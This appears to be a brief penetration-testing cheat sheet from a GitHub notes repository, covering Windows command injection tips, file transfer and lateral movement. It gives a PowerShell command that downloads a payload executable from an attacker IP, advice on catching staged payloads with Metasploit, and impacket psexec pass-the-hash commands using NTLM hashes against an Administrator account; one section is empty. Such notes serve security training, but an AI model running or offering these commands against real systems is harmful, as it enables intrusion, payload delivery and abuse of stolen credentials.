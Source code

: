 # RCE / Command Injection
- If normal command execution doesn't work, try to use `cmd /c <your command here>`.
- You can add `certutil.exe` command without the name of the output file.
- You can add `certutil.exe` URL without single/double quotes.
- If you cannot run executables like whoami, systeminfo; then go to `C:\Windows\system32` folder to run this commands, because they may not be on our `PATH`.

# File Transfer
**Note: Netcat doesn't know how to handle a staged payload. To get a functional interactive command prompt, we can use Metasploit's `multi/handler` module, which works for the majority of staged, non-staged, and more advanced payloads.**
PowerShell:
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
```
# Pass The Hash
## psexec.py
```
impacket-psexec -hashes 00000000000000000000000000000000:<NTLM> <user>@<ip>
```
```
python psexec.py -hashes 00000000000000000000000000000000:<NTLM> Administrator@192.168.1.105
```
## smbclient.py
```

```
[HINT](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)
## runas
```
runas /user:corp.com\robert powershell.exe
```
